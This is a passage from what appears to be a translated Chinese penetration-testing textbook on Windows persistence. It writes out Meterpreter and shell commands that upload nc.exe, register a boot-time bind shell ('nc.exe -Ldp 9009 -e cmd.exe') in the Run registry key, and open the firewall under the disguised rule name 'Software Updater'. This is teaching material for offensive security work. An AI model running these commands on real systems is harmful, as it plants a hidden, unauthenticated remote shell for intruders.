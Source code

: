 图 17.7 – 持久（且提升权限的！）代理报告

哇！我们的新代理正在以**SYSTEM**身份运行。我们现在完全控制了计算机，并且它将在重启后保持这种关系。永久的 WMI 订阅以**SYSTEM**身份运行，这不仅使其成为一个有价值的持久化练习，而且也是提升权限的可靠方式。

# 黑客隧道 – 即时生成的 netcat 后门

我知道你在想什么。你在想 netcat 是否真的是一个好的选择。它不是一个加密隧道，也没有任何认证机制，而且**nc.exe**常常被杀毒软件标记。不过，目前我们还是选择了 netcat，因为它是一个不错的演示工具，但实际上也有实际用途——我不确定是否有比这种方法更快的方式来在 Windows 目标系统中创建一个持久的后门。不过，你可以使用任何你喜欢的监听器来利用这种方法。让我们更仔细地看看我们手工制作的有效负载。

## 使用 Meterpreter 上传并配置持久化 netcat

我们已经看过使用**SimpleHTTPServer**在局域网上轻松传输文件的方法。这次，我们假设已经建立了 Meterpreter 的立足点，并且我们正在设置一个更快的*回调号码*。

使用**upload**命令将你的后门上传到目标。接下来的步骤是使其在每次启动时都能生效——将可执行文件添加到注册表中。请注意，双斜杠用于转义单个斜杠通常代表的换行符：

> 上传 /usr/share/windows-binaries/nc.exe C:\\Windows\\system32
> 
> reg setval -k HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run -v nc -d 'C:\Windows\system32\nc.exe -Ldp 9009 -e cmd.exe'

Meterpreter 应该报告密钥已成功设置：

![图 17.8 – Meterpreter 上传和注册表设置用于持久化的 netcat](img/Figure_17.08_B17616.jpg)

图 17.8 – Meterpreter 上传和注册表设置用于持久化 netcat

请注意，启动时实际执行的命令是**nc.exe -Ldp 9009 -e cmd.exe**。不要忘记端口号。不过，仍然有一步需要完成。

## 远程调整 Windows 防火墙以允许入站的 netcat 连接

现在，我知道你心中的黑客在想，*我们所做的不过是确保后门在启动时加载而已，可能我们回去时会撞上防火墙*。确实，学生成了大师。我们可以使用 **netsh** 一行命令来处理这个问题。进入目标的 shell，发送以下命令：

> netsh advfirewall firewall add rule name="Software Updater" dir=in action=allow protocol=TCP localport=9009

让我们看看这个过程是怎样的：

![图 17.9 – 从目标的 shell 修改防火墙](img/Figure_17.09_B17616.jpg)
